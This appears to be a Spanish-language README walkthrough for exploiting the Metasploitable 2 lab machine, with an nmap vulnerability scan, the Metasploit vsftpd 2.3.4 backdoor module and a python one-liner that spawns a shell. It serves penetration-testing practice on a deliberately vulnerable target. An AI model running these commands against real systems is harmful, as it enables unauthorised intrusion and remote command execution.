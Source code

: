 <p align="center">
<a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=60&color=19AC26FF&width=500&height=80&lines=Metasploitable 2"></a>
</p>

**sourceforge:** https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

**Paso 1:**

Escaneo de puertos y vulnerabilidades con nmap.

```
sudo nmap -sS -sV --script vuln 10.10.11.6
```

<p align="center">
<img src="./Img/escaneo.png">
</p>

**Paso 2**

Como podemos observar tiene vulnerabilidad en el puerto 21 y tiene como servicio vsftpd versión 2.3.4.

Para explotar esta vulnerabilidad vamos usar metasploit:

```
msfconsole

search vsftpd

use exploit/unix/ftp/vsftpd_234_backdoor

options
```

<p align="center">
<img src="./Img/metasploit.png">
</p>

cómo podemos ver tenemos que configurar la IP de la maquina vulnerable en
RHOSTS para poder acceder.


```
set RHOSTS 10.10.10.6

exploit
```

Ahora para poder generar un línea de comandor deberemos usar el sigueinte comando:

```python
python -c 'import os; os.system("/bin/sh")'

shell
```

<p align="center">
<img src="./Img/shell.png">
</p>